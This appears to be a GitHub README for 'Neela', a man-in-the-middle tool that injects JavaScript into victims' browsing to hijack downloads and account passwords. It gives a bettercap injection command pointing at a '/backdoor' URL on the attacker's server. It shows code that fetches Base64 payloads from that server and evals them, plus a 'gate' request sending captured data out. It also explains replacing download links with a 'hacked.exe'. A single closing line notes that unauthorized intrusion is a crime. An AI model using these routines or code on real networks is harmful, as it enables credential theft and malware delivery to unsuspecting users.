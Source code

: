 <p align="center">
<img  src ="https://s31.postimg.org/kuz84gwjv/Neela_logo03_d.png" height="300" />
</p>
<br />


###### Resume:

Neela, MITM extension tools can execute a routine.

A routine is execution of multiple steps, for hijack download binary... hijack account password ... and more.

###### Require:
    - express
    - body-parser
    - colors
    - cookie-parser
    - cookie-session
    - dns
    - ent
    - express-session
    - ip
    - socket.io
    - os
    - request-ip

![Neela LAN](https://s31.postimg.org/40czeg3zv/home.png)

##### Start server

```javascript
node neela.js
```

![Neela](https://s31.postimg.org/46463yy8b/Capture_d_e_cran_2016_07_07_a_16_27_26.png)

##### Select routine

![Neela](https://s31.postimg.org/40i2ytzl7/Capture_d_e_cran_2016_07_08_a_13_16_01.png)

##### Hacking with bettercap

```
--proxy-module injectjs --js-url "http://SERV_IP:3000/backdoor"
```

![bettercap with Neela](https://s32.postimg.org/duji0l405/Capture_d_e_cran_2016_07_07_a_16_25_50.png)

##### Make Routine & Hack !
* Create folder on /exploit/routine

  Create info file

  ```javascript
{
  "name": "Name routine",
  "step":[
      {"name":"step1.neela"},
      {"name":"step2.neela"}
      ]
  ,
  "author": "Author"
}

  ```

* Create step file exemple:

  step1.neela

  ```javascript
    alert('My first routine');
  ```

* set neela environement

```javascript
var serveur_neela = '10.34.2.139'; // Serv ip.
var step_neela = 0; // step 0=1 1=2 ...
var routine_name = 'Routine_folder_name';
```

* Update end function

```javascript
function end_neela(){

	console.log('ok end');
	var req = new XMLHttpRequest();
	req.open('GET', 'http://'+serveur_neela+':3000/next/'+step_neela+'/'+routine_name, true);
	req.onreadystatechange = function() {
    if (req.readyState == XMLHttpRequest.DONE) {
        eval(Base64.decode(req.responseText));
    }
}
	req.send(null);
}
```

* Get next step

```javascript
end_neela();
```

##### Gate receipt

```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://SERV_IP:3000/gate/'+encoded, false);
req.send(null);
```
![Neela](https://s31.postimg.org/wdfic47wr/Capture_d_e_cran_2016_07_07_a_15_32_28.png)

##### Replace download link
- Select replace_exe.neela routine
- Update /exploit/routine/exe/hacked.exe

![Neela replace](https://s31.postimg.org/worb3hngr/Capture_d_e_cran_2016_07_07_a_16_46_56.png)

##### Neela Logs

![Neela logs](https://s31.postimg.org/qgshncf17/logs.png)


reminder, infiltrate, monitor, computer system without authorization is a crime
